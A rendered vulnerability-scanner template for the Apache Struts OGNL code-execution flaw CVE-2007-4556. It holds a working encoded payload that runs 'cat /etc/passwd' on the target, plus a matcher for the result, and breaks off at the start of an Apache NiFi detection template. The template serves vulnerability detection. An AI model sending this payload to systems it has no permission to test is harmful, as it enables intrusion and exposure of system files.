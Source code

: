 ## Description

- Apache Struts support in OpenSymphony XWork before 1.2.3, and 2.x before 2.0.4, as used in WebWork and Apache Struts, recursively evaluates all input as an Object-Graph Navigation Language (OGNL) expression when altSyntax is enabled, which allows remote attackers to cause a denial of service (infinite loop) or execute arbitrary code via for"m input beginning with a "%{" sequence and ending with a "}" character.

- severity - critical
- tags - cve,cve2007,apache,rce,struts

## Requests

- Method - POST
- Method - POST

### URL

- {{BaseURL}}/login.action
  - username=test&password=%25%7B%23a%3D%28new+java.lang.ProcessBuilder%28new+java.lang.String%5B%5D%7B%22cat%22%2C%22%2Fetc%2Fpasswd%22%7D%29%29.redirectErrorStream%28true%29.start%28%29%2C%23b%3D%23a.getInputStream%28%29%2C%23c%3Dnew+java.io.InputStreamReader%28%23b%29%2C%23d%3Dnew+java.io.BufferedReader%28%23c%29%2C%23e%3Dnew+char%5B50000%5D%2C%23d.read%28%23e%29%2C%23f%3D%23context.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29%2C%23f.getWriter%28%29.println%28new+java.lang.String%28%23e%29%29%2C%23f.getWriter%28%29.flush%28%29%2C%23f.getWriter%28%29.close%28%29%7D

### Matchers

**Type - regex**

- regex
  1. root:.\*:0:0:
- part - body

**Type - status**

- status
  1. 200

---

# Apache NiFi detect

- severity - info
- tags - tech,apache,nifi

## Requests

- Method - GET

### URL
